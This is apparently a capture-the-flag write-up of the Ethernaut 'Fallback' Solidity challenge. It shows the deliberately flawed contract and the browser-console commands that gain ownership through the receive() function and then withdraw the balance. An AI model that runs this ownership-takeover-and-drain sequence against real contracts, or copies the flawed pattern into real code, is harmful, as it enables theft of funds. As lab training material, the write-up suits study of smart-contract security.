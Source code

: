 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel1.svg">

## Exploration

Given contract from Ethernaut.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
Challenge wants us to own the contract and withdraw all contribution from the contract. For this purpose, we should contribute this contract and call ```receive()``` function. In this way, we will own of the contract and withdraw all contribution.

## Subverting

Who is owner?

```shell
await contract.owner()
"0x9CB391dbcD447E645D6Cb55dE6ca23164130D008"
```
The first thing to solve this challenge is contribute some wei.

```shell
await contract.contribute({value: 4})
```
This notification met me.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/contribute.png">

```shell
await contract.getContribution()
Object { negative: 0, words: (2) […], length: 1, red: null }
​
length: 1
​
negative: 0
​
red: null
​
words: Array [ 4, <1 empty slot> ]
​​
0: 4
​​
length: 2
​​
<prototype>: Array []
​
<prototype>: Object { _init: _init(t, e, r), _initNumber: _initNumber(t, e, r), _initArray: _initArray(t, e, r), … }
```
### JSON RPC ETH

One way to call receive function is send external value to contract with console.Part of understanding “what is JSON-RPC” is understanding RPC itself. The concept of a remote procedure call, or RPC, in distributed computing refers to the process by which a computer program causes the execution of a subroutine or a procedure in a different location, known as an address space. Such remote address spaces in distributed computing refer to other computers in a network.

RPCs are coded as though they were just local procedure calls. In other words, a programmer will code the same thing even if the subroutine was meant to be local or remote. There is no distinguishable difference in coding for both local and remote interactions, and the programmer does not need to explicitly indicate that such a procedure call is to be run locally or remotely.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/jsonrpc.png">

For the call receiving function, we use JSON RPC with the ``sendTransaction()`` method and enter the value that will make us the owner of the contract.

```shell
await contract.sendTransaction({value: 1})
```
Check owner.

```shell
await contract.owner()
"0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b"

await contract.withdraw()

await contract.getContribution()
```
And submit instance.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/submit.png">

**_by wasny0ps_**
